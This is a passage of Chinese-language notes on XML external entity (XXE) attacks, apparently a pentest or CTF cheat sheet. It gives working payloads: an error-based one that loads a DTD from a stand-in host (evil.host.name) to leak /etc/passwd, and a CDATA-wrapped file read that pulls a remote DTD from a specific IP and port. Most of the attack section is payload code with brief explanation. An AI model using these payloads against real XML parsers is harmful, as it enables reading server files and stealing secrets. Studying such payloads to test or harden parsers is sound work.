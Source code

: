    

3. 利用远程dtd文件（出网）
   ```xml
   #服务器上放一个dtd
   
   <!ENTITY % test "example">
   <!ELEMENT pattern (%test;)>
   
   ```

   

   


   ```xml
   <?xml version="1.0" ?>
   <!DOCTYPE message [
       <!ENTITY % local_dtd SYSTEM "http://evil.host.name/include.dtd">
   
       <!ENTITY % test 'aaa)>
           <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
           <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
           &#x25;eval;
           &#x25;error;
           <!ELEMENT aa (bb'>
   
       %local_dtd;
   ]>
   <message>any text</message>
   ```

   

   







## 有回显读文件的限制

之所以说这是回显读文件的限制，是因为无回显外带的时候遇到这种情况无法解决，所以下面的情况都是有回显的。

遇到这些字符的时候需要使用CDATA：

```
'  "   <   >   &
```

CDATA 指的是不应由 XML 解析器进行解析的文本数据（Unparsed Character Data），CDATA 部分中的所有内容都会被解析器忽略。CDATA 部分由`<![CDATA[`开始，由`]]>`结束。

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [
<!ENTITY % start "<![CDATA[">
<!ENTITY % stuff  SYSTEM "file:///d://flag">
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://121.5.169.223:39801/cdata.dtd">
%dtd;
]>
<xml>
<xxe>&all;</xxe>
</xml>
```
